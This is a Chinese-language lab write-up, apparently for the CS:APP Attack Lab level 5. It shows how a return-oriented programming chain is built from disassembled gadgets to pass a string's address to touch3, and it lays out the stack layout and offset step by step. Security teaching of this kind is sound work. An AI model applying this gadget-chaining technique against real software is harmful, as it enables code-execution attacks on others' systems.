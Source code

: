 ## level5

首先我们先梳理一下touch3，其核心需求是让寄存器edi获得我们存放字符串的起始地址，所以我们其实需要准备三个东西：字符串、touch3入口、字符串地址。但是字符串地址我们是无法确定的，我们只能通过rsp间接确定其位置，于是我们的整个结构如下：

```
/* 40个空白字符 */
/* 1.传rsp的位置（也就是2.的位置）给寄存器x */
/* 2.获取偏移给rax*/
/* 3.偏移 即指令2.~5.的总长度 */
/* 4.x加上偏移（即地址）传给rdi */
/* 5.touch3入口 */
/* 6.字符串 */
```

首先，我们要找能够接收rsp的寄存器，也就是形如”movq rsp x“的指令（48 89 e0~7），发现只有”48 89 e0“。这里我们依然挑选最干净的第一项，它后面直接跟着c3，得到0x401a06。

```
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq

0000000000401a47 <addval_201>:
  401a47:	8d 87 48 89 e0 c7    	lea    -0x381f76b8(%rdi),%eax
  401a4d:	c3                   	retq

0000000000401a5a <setval_299>:
  401a5a:	c7 07 48 89 e0 91    	movl   $0x91e08948,(%rdi)
  401a60:	c3                   	retq
```

然后，我们要找到能将该地址和偏移地址加起来的函数，我找了半天没发现add，但找到了另一个更贴切的add_xy，直接用这整个函数即可，得到0x4019d6。

```
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq
```

但是我们发现它只接收rdi和rsi，于是我又慢慢去找二者相关的movq或movl函数，因为涉及到中间变量相互传值，所以这是个漫长而乏味的过程。总之，最后找到了符合目标的一组传值过程，然后将之前总结的细化一下。

```
1.movq rsp rax 此时rsp指向2.
2.movq rax rdi
3.pop eax
4.偏移值=10-1=9层（字符串还被9条指令压着呢）所以9x8=72字节
5.movl eax edx
6.movl edx ecx
7.movl ecx esi
8.lea (rdi, rsi, 1) rax
9.movq rax rdi
10.touch3
11.字符串
```
